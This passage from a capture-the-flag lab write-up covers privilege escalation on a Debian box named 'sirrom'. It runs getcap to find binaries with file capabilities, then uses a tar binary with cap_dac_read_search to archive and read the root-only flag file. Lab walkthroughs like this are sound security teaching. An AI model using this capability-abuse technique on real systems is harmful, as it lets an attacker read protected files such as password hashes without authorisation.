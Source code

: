 Privilege Escalation
--------------------

Distro and Kernel Information.
```
norris@sirrom:/tmp$ uname -a && cat /etc/*-release
Linux sirrom 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64 GNU/Linux
PRETTY_NAME="Debian GNU/Linux 10 (buster)"
NAME="Debian GNU/Linux"
VERSION_ID="10"
VERSION="10 (buster)"
VERSION_CODENAME=buster
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
```
Thanks to pwn4magic for showing me the method below.
getcap scans the system for files with special capabilities.
For more information visit: https://nxnjz.net/2018/08/an-interesting-privilege-escalation-vector-getcap/

First set $PATH variable to the full path.
```
norris@sirrom:/tmp$ export PATH=$PATH:/usr/sbin:/usr/local/sbin:/usr/local/bin:/usr/bin:/sbin:/bin:/usr/games
```
Next scan the system for files with special capabilities.

```
norris@sirrom:/tmp$ getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/tar = cap_dac_read_search+ep
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/ping = cap_net_raw+ep
norris@sirrom:/tmp$ ls -laht /usr/bin/tar
-r-xr-x--- 1 root norris 436K Apr 23 2019 /usr/bin/tar
```

### Root Flag

Looks like tar is one of those files, which let’s one get the root flag.

```
norris@sirrom:/tmp/etc$ /usr/bin/tar -cvf root_txt.tar /root/root.txt
/usr/bin/tar: Removing leading `/' from member names
/root/root.txt
norris@sirrom:/tmp/etc$ tar -xvf root_txt.tar
root/root.txt
norris@sirrom:/tmp/etc$ cat root/root.txt
8fc9376d961670ca10be270d52eda423
```
